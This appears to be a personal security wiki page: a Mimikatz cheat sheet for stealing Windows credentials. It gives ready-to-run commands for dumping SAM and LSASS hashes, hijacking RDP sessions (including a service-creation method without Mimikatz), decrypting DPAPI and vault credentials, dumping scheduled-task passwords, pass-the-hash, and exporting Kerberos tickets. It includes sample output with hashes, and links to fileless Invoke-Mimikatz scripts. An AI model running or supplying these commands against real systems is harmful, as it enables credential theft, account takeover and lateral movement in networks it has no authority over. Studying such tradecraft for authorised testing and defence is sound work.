 ```yaml
---
title: Mimikatz
date: M02-05-2023
author: i4
---
```


>Starting with Windows 8.1 and Windows Server 2012 R2, the LM hash and “clear-text” password are no longer in memory.
> In order to prevent the “clear-text” password from being placed in LSASS, the following registry key needs to be set to “0” (Digest Disabled):
> `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)`
- https://book.hacktricks.xyz/windows-hardening/stealing-windows-credentials/credentials-mimikatz

## Requirements
- Needs to be run as Administrator (See high elevation [UAC Bypass](/wiki/Security/Windows/Privilege%20Escalation/UAC%20Bypass.md) & [Insecure File Permissions](/wiki/Security/Windows/Privilege%20/Escalation/Insecure%20File%20Permissions.md))
- Needs SeDebugPrivileges tokens

```cmd
C:\> mimikatz.exe
...
mimikatz # privilege::debug # Active SeDebugPrivileg
mimikatz # token::elevate # UAC => SYSTEM Mandatory Level
mimikatz # lsadump::sam # Dump local NTLM hashes
```

### RDP Session Hijack
- Use `ts::multirdp` to allow multiple connections
```
privilege::debug
token:: elevate
ts::sessions # list sessions IDs
ts::remote /id:[id] # Hijack session
```

**Without mimikatz (Needs SYSTEM)**
```
query user
create sesshijack binpath="cmd.exe /k tscon 1 /dest:rdp-tcp#[id]"
net start sesshijack
```

## SAM
```
lsadump::sam
```

### DPAPI
```
# Grab credentials 
C:\Users\<user>\Appdata\Local\microsoft\Credentials\*

$ mimikatz dpapi::cred /in:C:\<user>\Appdata\Local\microsoft\Credentials\<ID>

# find master key
# mimikatz !sekurlsa::dpapi

# use to decrypt
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\[id] /masterkey:[masterkey]
```

### Task Scheduled creds
- Dumps passwords of scheduled tasks
```
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```

### Vault
```
vault::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Vault\"
```

### Pass-The-Ticket
```mimikatz
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

### Logged-On users
- NTLM & SHA-1 + SYSTEM hive can be used to crack hashes
- WDIGEST should not be enabled on the system (if not manually enabled) -> Will contain cleartext password
- 
```cmd
sekurlsa::logonpasswords

Authentication Id : 0 ; 11175293 (00000000:00aa857d)
Session           : Interactive from 1
User Name         : i4
Domain            : HEIMAT
Logon Server      : FALKE
Logon Time        : 15/02/2023 19:12:13
SID               : S-1-5-21-723141792-3823283005-3320163372-1106
        msv :
         [00000003] Primary
         * Username : i4
         * Domain   : HEIMAT
         * NTLM     : 6608E4BC7B2B7A5F77CE3573570775AF
         * SHA1     : 6E2F9E6111E77EDD0C446EA7A84E25323D137A61
         * DPAPI    : 2a8b139c8129cjsadgbbc276892a6962
        tspkg :
        wdigest :
         * Username : i4
         * Domain   : HEIMAT
         * Password : (null)
        kerberos :
         * Username : i4
         * Domain   : heimat.erde
         * Password : ????
        ssp :
        credman :
        cloudap :
```

### Kerberos Tickets
- See [Kerberos](/wiki/Security/Windows/AD/Authentication/Kerberos.md)
- See [Service Account Attacks](/wiki/Security/Windows/AD/Service%20Account%20Attacks.md)
```
sekurlsa::tickets

Authentication Id : 0 ; 11175293 (00000000:00aa857d)
Session           : Interactive from 1
User Name         : i4
Domain            : HEIMAT
Logon Server      : FALKE
Logon Time        : 15/02/2023 19:12:13
SID               : S-1-5-21-723141792-3823283005-3320163372-1106

         * Username : i4
         * Domain   : HEIMAT.ERDE
         * Password : (null)

        Group 0 - Ticket Granting Service
         [00000000]
           Start/End/MaxRenew: 16/02/2023 05:07:26 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : LDAP ; falke.heimat.erde ; heimat.erde ; @ HEIMAT.ERDE
           Target Name  (02) : LDAP ; falke.heimat.erde ; heimat.erde ; @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE ( HEIMAT.ERDE )
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]
         [00000001]
           Start/End/MaxRenew: 16/02/2023 05:07:22 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : cifs ; falke.heimat.erde ; @ HEIMAT.ERDE
           Target Name  (02) : cifs ; falke.heimat.erde ; @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 3        [...]

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 16/02/2023 05:07:22 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : krbtgt ; HEIMAT.ERDE ; @ HEIMAT.ERDE
           Target Name  (--) : @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE ( $$Delegation Ticket$$ )
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
         [00000001]
           Start/End/MaxRenew: 16/02/2023 05:07:22 ; 16/02/2023 15:07:22 ; 23/02/2023 05:07:22
           Service Name (02) : krbtgt ; HEIMAT.ERDE ; @ HEIMAT.ERDE
           Target Name  (02) : krbtgt ; heimat.erde ; @ HEIMAT.ERDE
           Client Name  (01) : i4 ; @ HEIMAT.ERDE ( heimat.erde )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             ????????????????????????????????????????????????????????????????
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
```

#### Dumping tickets
- If the TGS is already in memory for the specific user, no administrator or  `privilege::debug` needed.
- Saves the ticket in the current dir

_mimikatz.exe_
```
mimikatz # kerberos::list /export
```

_Invoke-Mimikatz_
```
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder
```

## Others
### File-less
- [PowerSploit](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)
- [Empire](https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1)

### Dumping misc creds

- [Invoke-Mimikittenz](https://raw.githubusercontent.com/putterpanda/mimikittenz/master/Invoke-mimikittenz.ps1)
